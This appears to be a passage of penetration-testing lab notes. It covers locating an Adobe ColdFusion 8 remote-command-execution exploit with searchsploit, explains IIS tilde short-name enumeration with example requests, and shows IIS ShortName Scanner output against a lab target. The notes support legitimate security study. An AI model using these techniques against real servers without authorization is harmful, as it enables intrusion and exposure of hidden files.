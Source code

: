 ## **Coldfusion - Exploitation - RCE**

```
searchsploit -p 50057  

Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      
      
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable

Copied EDB-ID #50057's path to the clipboard

```

# **IIS Tilde Enumeration**

IIS tilde directory enumeration is a technique utilised to uncover hidden files, directories, and short file names (aka the `8.3 format`) on some versions of Microsoft Internet Information Services (IIS) web servers.

The enumeration process starts by sending requests with various characters following the tilde:

```
http://example.com/~a
http://example.com/~b
http://example.com/~c
...
```

Assume the server contains a hidden directory named SecretDocuments. When a request is sent to `http://example.com/~s`, the server replies with a `200 OK` status code, revealing a directory with a short name beginning with "s". The enumeration process continues by appending more characters:

```
http://example.com/~se
http://example.com/~sf
http://example.com/~sg
...
```

For instance, if the short name `secret~1` is determined for the concealed directory SecretDocuments, files in that directory can be accessed by submitting requests such as:

```
http://example.com/secret~1/somefile.txt
http://example.com/secret~1/anotherfile.docx
```

## **Enumeration - Using IIS ShortName Scanner**

```
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
# IIS Short Name (8.3) Scanner version 2023.0 - scan initiated 2023/03/23 15:06:57
Target: http://10.129.204.231/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
```